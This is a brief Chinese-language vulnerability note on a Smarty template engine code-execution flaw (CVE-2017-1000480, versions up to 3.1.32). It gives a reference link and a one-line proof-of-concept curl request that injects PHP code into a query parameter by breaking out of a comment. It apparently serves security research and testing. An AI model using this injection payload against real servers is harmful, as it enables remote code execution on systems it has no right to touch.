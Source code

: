 ## Smarty 3.1.20

### 代码执行漏洞

影响版本

* <= 3.1.32

参考链接

* [Smarty <= 3.1.32 代码执行漏洞分析—【CVE-2017-1000480】](https://mp.weixin.qq.com/s/MkXv1wU9qIfyGq4izH2VwQ)

Poc

```
curl http://127.0.0.1/?test=*/;phpinfo();/*
```


